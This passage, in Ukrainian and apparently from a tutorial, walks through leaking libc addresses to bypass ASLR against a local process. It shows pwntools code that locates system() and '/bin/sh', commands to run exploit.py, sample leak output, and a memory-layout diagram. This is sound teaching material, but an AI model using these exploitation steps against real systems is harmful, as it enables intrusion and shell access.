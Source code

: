 ```python
# Тепер ми знаємо де всі функції!
log.success(f"system() at: {hex(libc.symbols['system'])}")
log.success(f"'/bin/sh' at: {hex(next(libc.search(b'/bin/sh')))}")

io.close()
```

### Крок 5: Запустіть exploit

```bash
chmod +x exploit.py
python3 exploit.py
```

Очікуваний вивід:
```
[*] Offset puts() в libc: 0x809c0
[*] Offset system() в libc: 0x50d70
[+] Starting local process
[*] Відповідь сервера: PUTS=0x7ffff7a809c0
[+] Витік: puts() = 0x7ffff7a809c0
[+] Libc base: 0x7ffff7a00000
[+] system() at: 0x7ffff7a50d70
[+] '/bin/sh' at: 0x7ffff7b99e1a
```

## 🔍 Детальний розбір

### Візуалізація процесу

**1. Програма запускається:**
```
ASLR рандомізує адреси:
┌────────────────────────────┐
│ Програма:   0x400000       │  ← PIE OFF, фіксована
├────────────────────────────┤
│ Stack:      0x7fff...      │  ← Рандомізована
├────────────────────────────┤
│ libc base:  0x7ffff7a00000 │  ← РАНДОМІЗОВАНА!
│   puts:     base + 0x809c0 │
│   system:   base + 0x50d70 │
└────────────────────────────┘
```

**2. Відправляємо LEAK:**
```
Client → Server: "LEAK\n"
```

**3. dlsym знаходить puts:**
```c
void* p = dlsym(RTLD_NEXT, "puts");
// p = 0x7ffff7a809c0 (реальна адреса в пам'яті)
```
